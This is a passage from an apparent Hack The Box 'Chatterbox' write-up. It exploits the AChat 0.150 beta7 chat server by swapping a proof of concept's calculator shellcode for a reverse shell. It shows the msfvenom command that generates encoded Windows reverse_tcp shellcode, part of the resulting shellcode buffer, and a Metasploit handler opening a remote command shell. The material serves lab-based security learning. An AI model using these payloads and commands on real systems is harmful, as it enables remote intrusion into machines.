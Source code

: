 After some quick googling, and looking at the [AChat  project's sourceforge](https://sourceforge.net/projects/achat/?source=navbar) page you will discover that the last version of Achat to be released was `AChat 0.150 beta7`. So there's a pretty high chance that this is version of the software running on Chatterbox. 

### Modifying Exploit ShellCode & Testing Locally

One of the first things I pay attention to is the architecture of the machine that this exploit was tested or developed for (in this case Windows 7 32bit),and what the POC exploit code is executing when it triggers. Usually the exploit developer will let you know what versions of _"x"_ the following was tested as working on. For this exploit, the exploit developer generated shellcode to execute the calculator program when the exploit triggers. This is pretty useless to us, so we are going to drop-in-replace the `exac/calc` shellcode for simple `reverse shell` payload and go from there.

I downloaded a copy of the vulnerable AChat program, and ran it on a 64-bit Windows 7 virtual machine.

_generating windows reverse shell shellcode with msfvenom_
```
root@dastinia:~/htb/chatterbox# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp  LHOST=192.168.30.130 LPORT=8282 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 808 (iteration=0)
x86/unicode_mixed chosen with final size 808
Payload size: 808 bytes
Final size of python file: 3872 bytes
buf =  ""
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41"
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x4b\x4c\x69\x58\x32\x62"
buf += "\x49\x70\x39\x70\x6d\x30\x4f\x70\x62\x69\x48\x65\x30"
buf += "\x31\x79\x30\x71\x54\x64\x4b\x52\x30\x6c\x70\x42\x6b"
...Snip....
```

_After executing the modified exploit..._
```
msf exploit(multi/handler) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.30.130
LHOST => 192.168.30.130
msf exploit(multi/handler) > set LPORT 8282
LPORT => 8282
msf exploit(multi/handler) > exploit -j -z
[*] Exploit running as background job 1.

[*] Started reverse TCP handler on 192.168.30.130:8282

[*] Command shell session 2 opened (192.168.30.130:8282 -> 192.168.30.141:49389) at 2018-05-26 16:44:36 -0400
msf exploit(multi/handler) > sessions

```